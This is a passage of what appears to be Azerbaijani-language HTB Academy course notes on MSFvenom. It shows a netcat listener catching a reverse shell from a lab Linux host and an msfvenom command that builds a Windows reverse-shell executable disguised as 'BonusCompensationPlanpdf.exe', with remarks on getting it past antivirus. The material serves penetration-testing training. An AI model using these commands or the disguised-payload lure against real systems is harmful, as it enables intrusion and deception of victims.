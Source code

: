 ```bash
nijatmansimov@htb[/htb]$ sudo nc -lvnp 443
```

Fayl icra edildikdə, bir shell tutduğumuzu görürük.

#### Bağlantı Quruldu

```bash
nijatmansimov@htb[/htb]$ sudo nc -lvnp 443
Listening on 0.0.0.0 443
Connection received on 10.129.138.85 60892
env
PWD=/home/htb-student/Downloads
cd ..
ls
Desktop
Documents
Downloads
Music
Pictures
Public
Templates
Videos
```

Eyni konsepsiya Windows daxil olmaqla müxtəlif platformalar üçün payload yaratmaq üçün istifadə edilə bilər.

### Windows Sistemi üçün Sadə Mərhələsiz Payload Hazırlamaq

Biz həmçinin Windows sistemində işə salına bilən və shell təmin edən bir icra edilə bilən (.exe) fayl hazırlamaq üçün MSFvenom-dan istifadə edə bilərik.

#### Windows Payloadı

```bash
nijatmansimov@htb[/htb]$ msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.113 LPORT=443 -f exe > BonusCompensationPlanpdf.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of exe file: 73802 bytes
```

Əmr sintaksisi yuxarıda etdiyimiz kimi təhlil edilə bilər. Yeganə fərqlər, əlbəttə ki, payloadın **platforması** (Windows) və **formatıdır** (.exe).

### Windows Sistemində Sadə Mərhələsiz Payloadın İcrası

Bu, bu payloadı hədəf sisteminə çatdırmaq üçün yaradıcı olmalı olduğumuz başqa bir vəziyyətdir. Heç bir **kodlaşdırma** və ya **şifrələmə** olmadan, bu formada payload demək olar ki, mütləq Windows Defender AV tərəfindən aşkar ediləcək.
